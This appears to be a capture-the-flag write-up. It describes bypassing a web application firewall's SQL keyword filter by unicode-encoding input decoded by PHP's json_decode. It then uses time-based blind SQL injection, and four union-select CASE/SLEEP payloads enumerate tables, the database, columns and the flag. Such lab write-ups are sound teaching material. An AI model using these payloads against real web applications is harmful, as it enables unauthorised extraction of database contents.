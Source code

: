 - able to see source code of web app whenever you vists the URL
- filtering out any requests that include common words used in SQL queries
- possible to encode the string as unicode characters in order to bypass the WAF filter
	- PHP's *json_decode* function automatically converts the unicode characters back to normal text representation
	- https://stackoverflow.com/questions/6058394/unicode-character-in-php-string
- once you bypass the WAF, possible to use blind SQL injection in order to enumerate the databases, tables, and eventually the flag
- use a case statement along with *SLEEP* and *LIKE* keywords in order to reveal the names of non-default tables
- then possible to find the columns of the table and the database it belongs to in order to extract the actual information
```python
# find non-default tables, revealing the existence of "definitely_not_a_flag" (could also use "and table_name not like '<known table>%'" to keep enumerating table names)
PAYLOAD = "' union select case when (select count(*) from information_schema.tables where table_schema not in ('information_schema', 'mysql', 'performance_schema', 'sys') and table_name like '{check}%') then sleep(1) else 1 end -- -"
table = "definitely_not_a_flag"

# find which database "definitely_not_a_flag" belongs to
PAYLOAD = "' union select case when (select count(*) from information_schema.tables where table_name = 'definitely_not_a_flag' and table_schema like '{check}%') then sleep(1) else 1 end -- -"
db = "db_m8452"

# find name of columns in "definitely_not_a_flag"
PAYLOAD = "' union select case when (select count(*) from information_schema.columns where table_name = 'definitely_not_a_flag' and column_name like '{check}%') then sleep(1) else 0 end -- -"
column = flag

PAYLOAD = "' union select case when (select count(*) from db_m8452.definitely_not_a_flag where flag like '{check}%') then sleep(1) else 1 end -- -"
```

#### Tags: WAF bypass, blind SQL injection
